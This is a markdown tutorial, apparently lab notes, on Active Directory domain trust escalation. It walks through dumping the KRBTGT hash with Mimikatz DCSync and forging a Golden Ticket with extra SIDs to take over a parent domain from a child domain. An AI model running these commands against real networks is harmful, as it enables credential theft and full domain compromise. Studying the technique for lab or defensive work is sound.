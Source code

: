 Domain Trusts are a mechanism for users in the network to gain access to other resources in the domain. For the most part, trusts outline how the domains inside of a forest communicate with each other.<br>
There are two main types of trusts that can be configured between domains:

    Directional - The direction of the trust flows from a trusting domain to a trusted domain (one-Way Trust,Two-Way Trust).
    Transitive - If Domain A trusts Domain B and Domain B trusts Domain C, then Domain A will also trust Domain C, creating a chain of trust.
The trust between a parent and child domain is bidirectional. This is intended behaviour and is used to share resources through greater transitive trust relationships. However, as an attacker, we can also exploit this trust to compromise the parent domain if we have compromised a child domain.<br> 

**KRBTGT account**

KRBTGT is the account used for Microsoft's implementation of Kerberos. The name is derived from Kerberos (KRB) and Ticket Granting Ticket (TGT). Essentially, this account acts as the service account for the Kerberos Distribution Center (KDC) service, which handles all Kerberos ticket requests. This account is used to encrypt and sign all Kerberos tickets for the domain. Since the password hash is shared by all domain controllers, they can then verify the authenticity of the received TGT when users request access to resources.<br>

**Golden Ticket attack**

In order to forge TGTs, we need the following information:

    The FQDN of the domain
    The Security Identifier (SID) of the domain
    The username of the account we want to impersonate
    The KRBTGT password hash

we need to dump all NTML hashes including the krbtgt account using ```mimkatz```:
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync
```

**Inter-Realm TGTs**

Inter-Realm TGTs are used to provide access to resources in other domains. In our case, we want to exploit the bidirectional trust relationship between the child and parent domain to gain full access to the parent domain.<br>
We will include extra account SIDs of administrative group to grant Administrative privileges over the entire forest!.<br>

The key here is that we will exploit the trust the parent domain has with our child domain by adding the SID of this administrative group as an extra SID to our forged ticket for the domain controller of the child domain.<br>

Before we can go into exploitation, we first need to recover two SIDs:

    The SID of the child domain controller, which we will impersonate in our forged TGT
    The SID of the group Admins in the parent domain, which we will add as an extra SID to our forged TGT

To recover the SID of the child:
```
Get-ADComputer -Identity <TheChildDomain>
```
To recover the SID of the group:
```
Get-ADGroup -Identity "the group Admins" -Server <ParentDOmain>
```
**Exploiting Domain Trusts**

We finally have all of the information required to create our forged TGT. We will use Mimikatz to generate this golden ticket. The command will look something like this:
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::golden /user:Administrator /domain:<DOmainName> /sid:<OfTHeChildDOmain> /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Admins group> /ptt
```

First, we will verify that this ticket works for access to THMDC since it is a valid ticket for the Administrator user of the child domain:
```
C:\>dir \\ChildDomain.local\c$
```

This at least confirms that the Golden Ticket was forged for access to the child DC. However, since we specified extra SIDs, we should also now have access to the parent DC:
```
C:\>dir \\ParentDomain\c$\
```


